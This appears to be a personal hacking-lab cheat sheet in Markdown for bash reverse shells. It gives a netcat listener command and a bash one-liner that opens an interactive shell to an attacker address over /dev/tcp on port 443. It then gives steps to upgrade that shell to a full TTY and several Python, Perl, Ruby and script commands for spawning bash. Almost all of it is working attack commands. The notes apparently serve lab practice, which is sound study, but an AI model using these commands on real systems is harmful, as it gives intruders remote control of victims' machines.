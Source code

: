# bash

Author: Julien Bongars
Date: 2025-09-21 10:30:31
Path: /opt/development/cybersec/hacklas/notes/infiltration/reverse-shell/bash.md

---

## Source Machine

```bash
nc -lvnp 443
```

## Target Machine

```bash
bash -c "bash -i >& /dev/tcp/{YOUR_IP}/443 0>&1"
```

## Back to Source Machine

### Make fully interactive

**Method 1**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo
fg
export TERM=xterm
```

**Method 2**

```bash
# Step 1: Spawn PTY
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Step 2: Background shell
# Press: Ctrl+Z

# Step 3: In your local terminal
stty raw -echo; fg

# Step 4: Back in reverse shell
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

## Troubleshooting

Dealing with error

su must be run in a terminal
foo must be run in a terminal
not an interactive terminal
not an interactive session

### Quick Fixes

**Method 1: Python PTY (Most Common)**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Method 2: Script Command**

```bash
script /dev/null
```

**Method 3: Perl**

```bash
perl -e 'exec "/bin/bash";'
```

**Method 4: Ruby**

```bash
ruby -e 'exec "/bin/bash"'
```
